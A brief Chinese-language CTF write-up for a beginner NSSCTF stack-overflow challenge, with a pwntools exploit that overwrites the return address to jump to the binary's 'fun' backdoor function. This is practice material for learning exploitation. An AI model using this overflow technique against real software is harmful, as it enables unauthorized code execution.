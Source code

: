 [[SWPUCTF 2022 新生赛]有手就行的栈溢出 | NSSCTF](https://www.nssctf.cn/problem/2636)
![[Pasted image 20240901115237.png]]
后门函数有gift和fun，可用的是fun，确实是有手就行的栈溢出
exp:
```python
from pwn import *

# p = remote("node5.anna.nssctf.cn", 23017)
p = process('./nss2636')
elf = ELF('./nss2636')

# pwnlib.gdb.attach(p, 'b* 0x4011DD')

overflow = elf.symbols['overflow']
gift = elf.symbols['gift']
fun = elf.symbols['fun']

rdi = 0x401303
ret = 0x40101a

offset = 0x28

payload = b'A' * offset + p64(fun)
p.recvuntil(b"overflows")
p.sendline(payload)

p.interactive()
```